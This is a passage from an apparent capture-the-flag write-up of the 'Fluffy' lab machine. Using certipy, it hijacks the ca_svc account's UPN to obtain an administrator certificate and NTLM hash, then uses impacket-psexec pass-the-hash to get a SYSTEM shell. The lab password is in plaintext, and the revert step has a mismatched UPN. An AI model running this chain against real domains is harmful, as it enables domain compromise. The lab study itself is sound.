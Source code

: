 {% code overflow="wrap" %}
```bash
# Read initial UPN of the victim account
$ certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -user 'ca_svc' read
...
   userPrincipalName                   : ca_svc@fluffy.htb
   
# Modify the UPN of the victim's account to administrator
certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

# Request a client authentication certificate for administrator
certipy req -k -dc-ip 10.10.11.69 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
...
[*] Wrote certificate and private key to 'administrator.pfx'

# Revert the UPN of victim's account to the original value
certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -upn 'cva_svc@fluffy.htb' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : cva_svc@fluffy.htb
[*] Successfully updated 'ca_svc'

# Authenticate as administrator using the certificate
certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb'
...
[*] Wrote credential cache to 'administrator.ccache' # TGT
[*] Got hash for 'administrator@fluffy.htb': aad...a6e # NTLM hash
```
{% endcode %}

We can then use the NT hash to get a `SYSTEM` shell:

```bash
impacket-psexec administrator@fluffy.htb -hashes :aad...a6e -dc-ip 10.10.11.69
```

